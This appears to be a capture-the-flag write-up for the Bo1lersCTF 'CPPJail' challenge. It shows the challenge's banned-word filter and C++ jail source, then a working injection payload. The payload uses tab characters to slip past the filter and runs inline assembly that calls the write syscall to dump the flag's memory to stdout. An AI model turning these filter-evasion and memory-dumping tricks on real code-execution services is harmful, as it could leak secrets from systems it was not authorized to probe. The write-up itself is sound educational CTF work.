 ```yaml
---
layout: post
title: Bo1lersCTF | CPPJail
date: 2024-04-17
tags: ['Bo1lersCTF']
---
```

In this challenge, we're given three files: cppjail.cpp, flag.h, and compile.py. Starting with compile.py, let's examine the source code of each of these three files.

The Python program expects C++ code as user input. After filtering certain words and characters, it writes the resulting code to jail.cpp, compiles, and runs it.
```py
banned_words = [
    "#", "define", "include",
    "//",
    "ifndef", "ifdef",
    "Lock", "Key",
    "class", "struct",
    "*", "int", "char", "short", "long",    
    " "
]
```

Here's cppjail.cpp
```cpp
#include <type_traits>
#include "flag.h"
#include <cassert>
constexpr char flag[] = FLAG;

template<class b> struct Key {
    short i;
};

template<> struct Key<std::
bool_constant<false>>{
    char i;
};
template<> struct Key<std::
bool_constant<true>> {
    int i;
};
template<char c, int i> struct Lock {
    Key<std::bool_constant<flag[i] == c>>k;
};

template<class, class = void> struct Jail: :: std :: false_type {
    template<char c, int i> using lock=Lock<c, i>;
};
template<class T> class Jail<T, ::std::void_t<decltype(&std::declval<T>())>>: :: std ::true_type{};

class Prisoner {};

#undef FLAG
#define flag

/* you are here */

#include <stdio.h>

int main(void) {
    ::Prisoner prisoner1;
    ::Prisoner prisoner2;
    
    assert((&prisoner1) != (&prisoner2));
    ::printf("Prisoner 2 %p\n", &prisoner1);
    ::printf("Prisoner 1 %p\n", &prisoner1);
}
```
The Python program replaces the string `/* you are here */` with the input supplied by the user. Our goal is to read the flag. However, we're not allowed to use `#`, `#define`, or `#include`, so we can't use standard C/C++ library functions for reading the flag. Therefore, we'll utilize inline assembly to execute the write system call and leak the data.

However, there's a catch that using space characters are not allowed and our assembly code is likely to contain space characters. There's a bypass for it: using `\t`. We can leak data by executing the write system call. For that, let's compile `jail.cpp` locally, and use pwndbg for getting a rough idea about the distance of `flag` from `main`,
.
```sh
pwndbg> p/x &flag
$1 = 0x2020
pwndbg> p/x &main
$2 = 0x1169
pwndbg> p/x 0x2020-0x1169
$3 = 0xeb7
```

In this case, flag is 0xeb7 bytes away from main. Let's dump some bytes, and let's assume that `addr` is the memory address which is 0xe00 bytes away from `main`. Then, it's very likely that the flag will be present somewhere between `addr` and `addr + 0x100`. Let's write the assembly code for dumping 0x100 bytes, starting from addr, to stdout.
```s
asm("mov\t$1,%rax;""mov\t$1,%rdi;""lea\tmain(%rip),%rsi;""add\t$0xe00,%rsi;""mov\t$256,%rdx;""syscall;");
```

Having completed the assembly code, the main task is to execute it. We can't directly execute functions at global scope though. However, this can be done by using namespaces and the comma operator. The comma operator (,) evaluates expressions from left to right and returns the result of the rightmost expression.

In the following code, we've stored the inline assembly within the `run` function. Because of the behaviour of the comma operator, the `run` function is called and the inline assembly code within it dumps the flag for us.
```cpp
namespace{void(run)(){asm("mov\t$1,%rax;""mov\t$1,%rdi;""lea\tmain(%rip),%rsi;""add\t$0xe00,%rsi;""mov\t$256,%rdx;""syscall;");}Jail<Prisoner>x=(run(),Jail<Prisoner>());}
```
![Image](./assets/image.png)
